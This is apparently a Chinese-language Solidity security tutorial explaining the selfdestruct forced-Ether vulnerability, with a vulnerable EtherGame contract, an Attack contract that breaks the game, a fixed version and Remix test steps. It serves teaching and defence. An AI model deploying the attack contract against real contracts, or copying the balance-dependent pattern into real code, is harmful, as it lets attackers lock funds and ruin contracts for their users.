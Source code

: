 # 68.Self Destruct
合约可以通过调用selfdestruct从区块链中删除。
selfdestruct会将合约中剩余的所有以太币发送到指定的地址。
## 漏洞
恶意合约可以使用selfdestruct强制向任何合约发送以太币。
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

// 这个游戏的目标是成为第七个存入1个以太币的玩家。
// 玩家每次只能存入1个以太币。
// 获胜者将能够提取所有以太币。

/*
1. 部署EtherGame
2. 玩家（例如Alice和Bob）决定玩游戏，每人存入1个以太币。
3. 部署攻击程序，并指定EtherGame的地址。
4. 调用Attack.attack函数，发送5个以太币。这将破坏游戏，没有人能成为赢家。

发生了什么？
攻击导致EtherGame的平衡被强制设置为7个以太币。
现在没有人能够存款，也无法设定获胜者。
*/

contract EtherGame {
    uint public targetAmount = 7 ether;
    address public winner;

    function deposit() public payable {
        require(msg.value == 1 ether, "You can only send 1 Ether");

        uint balance = address(this).balance;
        require(balance <= targetAmount, "Game is over");

        if (balance == targetAmount) {
            winner = msg.sender;
        }
    }

    function claimReward() public {
        require(msg.sender == winner, "Not winner");

        (bool sent, ) = msg.sender.call{value: address(this).balance}("");
        require(sent, "Failed to send Ether");
    }
}

contract Attack {
    EtherGame etherGame;

    constructor(EtherGame _etherGame) {
        etherGame = EtherGame(_etherGame);
    }

    function attack() public payable {
        // 你可以通过发送以太币来轻松破坏游戏，以此来达到作弊的目的。
        // 游戏余额 >= 7 以太币

        // 转换地址为可支付地址
        address payable addr = payable(address(etherGame));
        selfdestruct(addr);
    }
}
```
不要依赖address(this).balance作为预防措施。
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

contract EtherGame {
    uint public targetAmount = 3 ether;
    uint public balance;
    address public winner;

    function deposit() public payable {
        require(msg.value == 1 ether, "You can only send 1 Ether");

        balance += msg.value;
        require(balance <= targetAmount, "Game is over");

        if (balance == targetAmount) {
            winner = msg.sender;
        }
    }

    function claimReward() public {
        require(msg.sender == winner, "Not winner");

        (bool sent, ) = msg.sender.call{value: balance}("");
        require(sent, "Failed to send Ether");
    }
}
```
## remix验证
部署合约EtherGame，模拟两个不同玩家各转入1ETH，余额显示为2ETH。
![68-1.png](./img/68-1.png)
部署合约Attack，输入合约EtherGame地址，调用attack（）函数并转入5ETH，结果发现虽然达到7个ETH，但并不能设置胜利者地址。
![68-2.png](./img/68-2.png)
